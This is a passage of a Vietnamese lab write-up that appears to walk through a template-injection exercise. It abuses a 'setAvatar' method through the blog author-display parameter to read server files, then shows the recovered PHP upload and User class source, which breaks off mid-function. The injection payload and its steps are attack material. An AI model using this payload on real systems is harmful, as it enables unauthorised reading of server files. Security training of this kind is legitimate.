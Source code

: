 Mình thấy có 1 phương thức của user là setAvatar nhận vào đường dẫn 1 file để setAvatar. Nó nhận vào 2 param. Có vẻ như cái đầu tiên là nó di chuyển file của mình đến `/tmp`, param thứ 2 là 
content-type của file đó. 

Giờ mình thử truy cập từ preferedname và xem kết quả ở blog post
![image](https://hackmd.io/_uploads/S1cqwZsCR.png)
Mình đọc lại lỗi khi upload thiếu param thì thấy nó có sử dụng hàm eval trong hàm setAvatar này. 

Mình có thể đọc 1 file bất kì rồi, có lẽ mình sẽ thử đọc file này để xem hàm eval được sử dụng như thế nào.

Các bước để mình đọc file đó chính là
1. set payload `blog-post-author-display=user.setAvatar('/home/carlos/avatar_upload.php','image/jpg')&csrf=token`
2. Vào 1 blog post nào đó để payload của mình được load và avatar được cập nhật
3. Tải file avatar về

Dưới đây là mã nguồn của file xử lý upload avatar
```php=
<?php

require_once("./User.php");

if ($_FILES['avatar']['error'] !== 0) {
    throw new Exception("Error in file upload: " . $_FILES['avatar']['error']);
}

if (strpos($_FILES['avatar']['name'], "/") !== false || strpos($_FILES['avatar']['name'], ".") === false) {
    throw new Exception("Uploaded file name is invalid: " . $_FILES['avatar']['name']);
}

$file = "/tmp/" . $_FILES['avatar']['name'];
if (!move_uploaded_file($_FILES['avatar']['tmp_name'], $file)) {
    throw new Exception("Could not move uploaded file '" . $_FILES['avatar']['tmp_name'] . "' to '" . $file . "'");
}

$user = new User($_POST['user'], null, null, null);
$user->setAvatar($file, $_FILES['avatar']['type']);
header('Location: ./');

?>
```

Và file `User.php`
```php=
<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
```